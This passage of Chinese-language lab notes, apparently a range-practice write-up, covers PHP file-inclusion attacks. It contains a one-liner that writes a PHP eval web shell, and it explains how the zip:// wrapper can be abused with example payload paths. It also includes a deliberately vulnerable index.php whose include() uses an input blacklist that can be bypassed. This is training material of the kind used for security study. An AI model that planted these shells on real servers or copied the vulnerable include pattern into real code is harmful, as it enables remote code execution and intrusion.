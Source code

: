 ```bash
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["shell"])?>');?>
```

这里就写入成功了

![image-20241031162848855](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031162848855.png)

### ZIP伪协议

`zip://` 可以访问压缩包里面的文件。当它与包含函数结合时，`zip://`流会被当作php文件执行。

从而实现任意代码执行。

```bash
zip://[压缩文件绝对路径]#[压缩文件内的子文件名]
zip://xxx.png#shell.php
```

在windows下测试要`5.3.0<PHP<5.4`才可以 `#`在浏览器中要编码为`%23`，否则浏览器默认不会传输特殊字符

> #### 注意：
>
> 1. ①`zip://`中只能传入**绝对路径**。
> 2. ②要用`#`分隔**压缩包**和**压缩包里的内容**，并且`#`要用url编码`%23`（即下述POC中#要用%23替换）
> 3. ③只需要是`zip`的压缩包即可，**后缀名可以任意更改**
>
> ```bash
> zip://C:/Users/32995/Desktop/FileInclude/press.zip%23press.php
> ```

#### EX-2

> php：5.3.29

```bash
//index.php
<meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if (!$file) echo '<a href="?file=upload">upload?</a>';
if(stristr($file,"input")||stristr($file, "filter")||stristr($file,"data")/*||stristr($file,"phar")*/){
	echo "hick?";
	exit();
}else{
	print_r($file);
	include($file);
}
?>
```

> 禁用php://input，php://filter，php://data，php://phar字符串
>
> 没禁用php://zip
